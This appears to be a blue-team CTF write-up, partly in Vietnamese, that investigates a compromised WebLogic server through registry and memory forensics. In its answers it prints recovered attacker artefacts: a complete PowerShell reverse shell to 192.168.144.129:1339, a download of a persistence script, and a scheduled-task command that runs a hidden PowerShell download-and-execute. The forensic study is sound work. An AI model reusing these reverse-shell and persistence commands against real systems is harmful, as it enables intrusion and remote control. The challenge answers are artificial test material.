



---


[https://cyberdefenders.org/blueteam-ctf-challenges/weblogic/](https://cyberdefenders.org/blueteam-ctf-challenges/weblogic/)


### Q1 What is the version of the WebLogic server installed on the system? {#3517b0eb61a480a58b54e0d66b98cf53}





14.1.1.0.0


### Q2 The admin set a port forward rule to redirect the traffic from the public port to the WebLogic admin portal port. What is the public and WebLogic admin portal port number? Format PublicPort:WebLogicPort (22:1337) {#3517b0eb61a480a882c1c61542ed6471}


`\REGISTRY\MACHINE\SYSTEM\ControlSet002\Services\SharedAccess\Parameters\FirewallPolicy\FirewallRules	{ACAB0365-5BFD-47D3-97FE-C0158EE875AD}`	


Port forwarding rules created via `netsh` on Windows are stored **in the registry under** `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp`. These settings are used for Windows native port forwarding. For specific applications like RDP or Windows Firewall, other registry keys are used


Ta tìm thấy như sau
\REGISTRY\MACHINE\SYSTEM\ControlSet002\Services\PortProxy\v4tov4\tcp 192.168.144.131/80 "192.168.144.131/7001" False


\REGISTRY\MACHINE\SYSTEM\ControlSet002\Services\PortProxy\v4tov4\tcp	192.168.144.131/80	"192.168.144.131/7001"	False


### Q3 The attacker gain access through WebLogic Server. What is the PID of the process responsible for the initial exploit? {#3517b0eb61a4805893a5fbcd863bf7de}





java gọi hàng loạt powershell là điểm bất thường


### Q4 The attacker used the vulnerability he found in the webserver to execute a reverse shell command to his own server. Provide the IP and port of the attacker server? Format: IP:port {#3517b0eb61a480fa8d7af27f440eac8b}


```c++
$client = New - Object System.Net.Sockets.TCPClient("192.168.144.129", 1339);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|% {
    0
};
while (($i = $stream.Read($bytes, 0, $bytes.Length))  - ne 0)  {;
    $data = (New - Object  - TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2 > &1 | Out - String );
    $sendback2 = $sendback  +  "PS "  +  (pwd).Path  +  "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```


### Q5 Multiple files were downloaded from the attacker's web server. Provide the Command used to download the PowerShell script used for persistence? {#3517b0eb61a480be8d1fde7c18491161}


tập trung vào các process powershell 3520,2684,4200,4264,2712,1616,2132,1012,4344


Invoke-WebRequest -Uri "http://192.168.144.129:1338/presist.ps1" -OutFile "./presist.ps1"


### Q6 What is the MITRE ID related to the persistence technique the attacker used? {#3517b0eb61a48039a3a3e3475cd8e967}


schtasks /create /tn ServiceUpdate /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.144.129/connect.ps1''))'" /sc onlogon /ru System


### Q7 After maintaining persistence, the attacker dropped a cobalt strike beacon. Try to analyze it and provide the User-Agent. {#3517b0eb61a4808f9847c3de8f093bc2}


Beacon của cobalt parser bằng cách nào đẩy vào máy nạn nhân. Trong đó chứa configuration block, có nhiều thông tin quan trọng như: C2, port, protocol, user-agent,….


Nhưng thường bị mã hóa





python3 [vol.py](http://vol.py/) -f '/home/ubuntu/Desktop/Start Here/Artifacts/memory.mem' -o '/home/ubuntu/Desktop/Start Here/Artifacts/MemProcFS Output' windows.memmap --pid 1488 --dump


Ta dùng parse_beacon_config.py và parse file pid.1488.vad.0x3160000-0x355ffff.dmp


Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0) LBBROWSER


### Q8 What is the URL of the exfiltrated data? {#3517b0eb61a480e4af45d72904ee08d2}


`strings -e l /home/ubuntu/Desktop/Challenges/processdump/pid.4596.dmp | grep -i 'exfiltrator.txt' -A1`


https://pastebin.com/A0Ljk8tu

